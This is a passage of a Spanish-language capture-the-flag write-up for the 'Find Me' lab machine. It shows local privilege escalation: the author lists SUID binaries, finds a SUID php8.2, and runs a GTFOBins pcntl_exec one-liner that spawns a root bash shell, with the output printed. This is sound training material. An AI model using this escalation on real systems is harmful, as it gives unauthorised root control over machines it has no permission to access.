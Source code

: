 Este usuario no tiene ningún privilegio:
```bash
geralt@find-me:/home/geralt$ sudo -l
[sudo] contraseña para geralt: 
Sorry, user geralt may not run sudo on find-me.
```
Tendremos que buscar otra forma de escalar privilegios.

Si revisamos qué binarios tienen **permisos SUID**, encontraremos uno del que nos podemos aprovechar:
```bash
geralt@find-me:/home/geralt$ find / -perm -4000 2>/dev/null
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/php8.2
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Podemos buscar el **binario php** en **GTFOBins** para encontrar una forma de escalar privilegios:
* <a href="https://gtfobins.github.io/gtfobins/php/" target="_blank">GTFOBins: php</a>

<p align="center">
<img src="/assets/images/THL-writeup-findMe/Captura10.png">
</p>

Vamos a probarlo:
```bash
geralt@find-me:/home/geralt$ CMD="/bin/bash"
geralt@find-me:/home/geralt$ php -r "pcntl_exec('/bin/bash', ['-p']);"
bash-5.2# whoami
root
```
Genial, ya somos **Root**.
